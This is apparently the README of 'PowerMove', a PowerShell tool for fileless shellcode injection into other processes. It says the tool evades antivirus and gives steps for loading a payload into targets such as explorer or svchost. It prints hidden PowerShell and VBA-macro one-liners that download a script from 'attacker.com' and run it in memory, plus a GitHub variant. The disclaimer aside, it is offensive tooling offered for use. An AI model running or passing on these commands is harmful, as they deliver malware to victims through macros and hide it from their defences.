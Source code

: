 ![alt text](https://github.com/10N351R/PowerMove/blob/main/Images/Logo_video2.gif)
# PowerMove.ps1
Author: 10N351R


PowerMove is a fileless process injector written in PowerShell for injecting shellcode and migrating your shell to new processes. PowerMove uses common WINAPIs such as `OpenProcess`, `VirtualAllocEx`, `WriteProcessMemory`, and `CreateRemoteThread` to perform simple process injections. This combination of WINAPIs are often detected by anti-virus solutions when stored on disk but will bypass these protections when executed exclusively in memory.

Tested on PowerShell version: `5.1.19041.4522`

## Instructions
To use PowerMove in an existing PowerShell shell
1. Copy the contents of PowerMove.ps1 into a text editor
2. Edit the `$targetPid` variable with the PID of the target process to inject into
3. Edit the `$shellcode` variable with the payload you wish to inject
4. Copy the contents from the beginning `###` to the end `###` to your clipboard
5. Paste the contents into your existing PowerShell shell and press `Enter`
6. Enjoy the benifits fileless process injection

## Output
![alt text](https://github.com/10N351R/PowerMove/blob/main/Images/PowerMove_output.png)

# PowerMove_dynamic.ps1
`PowerMove_dynamic.ps1` was created to add dynamic PID resolution to enable remote execution via COM objects in a VBA macro without embedding.

Tested on PowerShell version: `5.1.26100.4202`

## Instructions
`PowerMove_dynamic.ps1` can be executed in a Visual Basic for Applications (VBA) macro, or directly from PowerShell.
1. Copy the contents of `PowerMove_dynamic.ps1` into a text editor
2. Edit the `$targetProcName` variable with the name of the process you want to target (eg. `notepad`,`explorer`,`svchost`)
3. Edit the `$shellcode` variable with the payload you wish to inject
4. Host `PowerMove_dynamic.ps1` on a server reachable by the target
5. Execute on the target

### Using PowerShell
```powershell
powershell.exe -nop -w hidden -Command ""$h=New-Object -ComObject 'Msxml2.XMLHTTP';$h.open('GET','http://attacker.com/PowerMove_dynamic.ps1',$false);$h.send();IEX $h.responseText""
```

### Using VBA Macro
```vba
Sub TEST()
    Dim ps As String
    ps = "powershell.exe -nop -w hidden -Command ""$h=New-Object -ComObject 'Msxml2.XMLHTTP';$h.open('GET','http://attacker.com/PowerMove_dynamic.ps1',$false);$h.send();IEX $h.responseText"""
    Shell ps, vbHide
End Sub
```

### Testing with Notepad
```powershell
powershell.exe -nop -NoExit -Command ""$h=New-Object -ComObject 'Msxml2.XMLHTTP';$h.open('GET','https://raw.githubusercontent.com/10N351R/PowerMove/refs/heads/main/PowerMove_dynamic.ps1',$false);$h.send();IEX $h.responseText""
```

## Disclaimer
**Ethical Use:** PowerMove is provided for educational and lawful purposes only. The author is not responsible for any misuse or damaged caused by this tool. By using this tool, you agree to use it ethically and comply with all applicable laws and regulations. Unauthorized use of this tool is strictly prohibited and may result in severe legal consequences.

**Use Of Artificial Intelligence:** This tool was partially developed with the assistance of Artificial Intelligence (AI), and contains portions of code generated using OpenAI's ChatGPT, an AI language model.
